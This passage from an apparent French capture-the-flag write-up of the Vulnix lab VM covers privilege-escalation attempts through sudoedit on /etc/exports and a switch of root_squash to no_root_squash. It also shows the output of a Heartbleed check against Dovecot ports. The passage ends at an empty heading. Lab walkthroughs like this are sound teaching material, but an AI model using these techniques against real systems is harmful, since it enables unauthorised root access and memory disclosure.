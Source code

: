 L'utilisateur a des accès dans *sudoers* qui lui permettent (normalement) d'éditer le fichier */etc/exports* (où sont définis les partages NFS) avec *sudoedit*.  

L'éditeur prédéfini sur le système est nano (beurk). Il est possible de faire exécuter des commandes depuis *nano* via Ctrl+R puis Ctrl+X mais si on tente d'afficher le contenu de */etc/shadow* l'accès est refusé. De même si on fait exécuter *id* c'est bien les informations du compte *vulnix* qui apparaissent... Ça sent le bug dans la VM :(  

L'attaque attendue dans le challenge consiste normalement à modifier la ligne suivant du */etc/exports* :  

```plain
/home/vulnix    *(rw,root_squash)
```

Il faut changer l'option *root\_squash* en [no\_root\_squash](https://access.redhat.com/documentation/en-US/Red_Hat_Enterprise_Linux/6/html/Security_Guide/sect-Security_Guide-Securing_NFS-Do_Not_Use_the_no_root_squash_Option.html) ce qui permet alors normalement d'uploader un binaire setuid 0 sans se faire éjecter.  

Malheureusement aucune tentative n'a réussie :( Allo *Doc* ? Une idée ?  

Les années 2010 sont arrivées sans prévenir
-------------------------------------------

Chose amusante : les ports *Dovecot* 993 et 995 sont vulnérables à *Heartbleed* (testé avec *hb-test.py* de *Jared Stafford*) mais il ne faut pas espérer quelque chose d'intéressant.  

```plain
$ python hb-test.py 192.168.1.54 -p 995
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 58
 ... received message: type = 22, ver = 0302, length = 921
 ... received message: type = 22, ver = 0302, length = 525
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
--- snip ---
  3ff0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................

WARNING: server returned more data than it should - server is vulnerable!
```

Toc toc McFly
-------------
